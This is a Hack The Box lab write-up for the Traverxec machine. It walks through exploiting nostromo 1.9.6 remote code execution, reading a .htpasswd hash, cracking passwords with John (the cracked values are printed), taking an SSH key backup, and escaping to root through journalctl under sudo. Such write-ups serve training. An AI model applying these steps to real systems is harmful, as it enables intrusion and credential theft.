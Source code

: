 ```yaml
---
title:     "Hack The Box - Traverxec"
tags: [linux,easy,john,sudo]
layout: post
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/1.png)

We are going to pwn Traverxec by jkr from Hack The Box. Getting User shell is fun and by using GTFOBins correctly we can get Root easily.


Link : <https://www.hackthebox.eu/home/machines/profile/217>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

Looks like an normal webpage and There’s a contact form at the bottom of the page, I send some queries but it’s not doing anything. Also the nmap reveals its ``nostromo 1.9.6``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/2.png)

## Method 1 :

Found an exploit in metasploit 

> https://www.rapid7.com/db/modules/exploit/multi/http/nostromo_code_exec

So Lets fire up the metasploit and try to get the shell
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/3.png)

I got ``www--data``

## Method 2 (Without Metasploit)

> https://www.exploit-db.com/exploits/47837

```Usage: cve2019-16278.py <Target_IP> <Target_Port> <Command>```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/19.png)

Once I get into the machine I can't move to anyother dir so I tried to get a proper shell first.
```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ cd /var
cd /var
www-data@traverxec:/var$ 
```

While checking ``nostromo`` conf files found that ``.htpasswd`` are located in same dir.<br/>

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/5.png)

It gives me user ``david`` hash.<br/>
```
www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd
cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

And I cracked it with john <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/6.1.png) ``Nowonly4me``<br/>

But I cant ``su david`` with that password. I can't access ``david`` home dir too.<br/>
```
www-data@traverxec:/home$ cd david
cd david
www-data@traverxec:/home/david$ ls
ls
ls: cannot open directory '.': Permission denied
www-data@traverxec:/home/david$ 
```
So I started checking anything else in ``nhttpd.conf`` and noted.

```
# HOMEDIRS [OPTIONAL]

homedirs			/home
homedirs_public		public_www
```

So I googled about ``nhttpd.conf``

>https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/7.png)

>http://10.10.10.165/~david/

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/8.png)<br/>
And that Document tell us that we can view them in the home directory as well as via HTTP.<br/>
We know that ``homedirs_public`` is ``public_www`` So I tried to view them in shell.

```
www-data@traverxec:/var/nostromo/conf$ ls ~david/public_www
ls ~david/public_www
index.html  protected-file-area

www-data@traverxec:/var/nostromo/conf$ ls ~david
ls ~david
ls: cannot open directory '/home/david': Permission denied

www-data@traverxec:/var/nostromo/conf$ ls ~david/public_www
ls ~david/public_www
index.html  protected-file-area

www-data@traverxec:/usr/bin$ ls ~david/public_www/protected-file-area
ls ~david/public_www/protected-file-area
backup-ssh-identity-files.tgz
```
There is Backup-SSH file, Lets download it to our machine using netcat.<br/>

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/20.png)

## Another Method to download the SSH backup file:

We know there is ``protected-file-area`` I tried to view them on my webpage.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/9.png)
`` david : Nowonly4me `` 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/10.png)

Downloaded that file and extracted on my machine.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/11.png)
We got ssh private key.<br/>

It ask for passphase so I tried to crack with ``john`` again. For that we need use ``ssh2john`` first.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/12.png)

Now we can use this with ``john``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/13.png) `` : hunter``

Got User Flag<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/14.png)

## Privilege Escalation:

There is a script located in the home directory.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/15.png)

While checking it , I found that its running ``journalctl`` as sudo.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/16.1.png)

>https://gtfobins.github.io/gtfobins/journalctl/

According to this ``journalctl`` we need to shrunk the terminal to two lines and then escaped via less.

So I copied the sudo line <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/16.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/17.png)

`` !/bin/sh ``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/18.png)

I'm Root !!






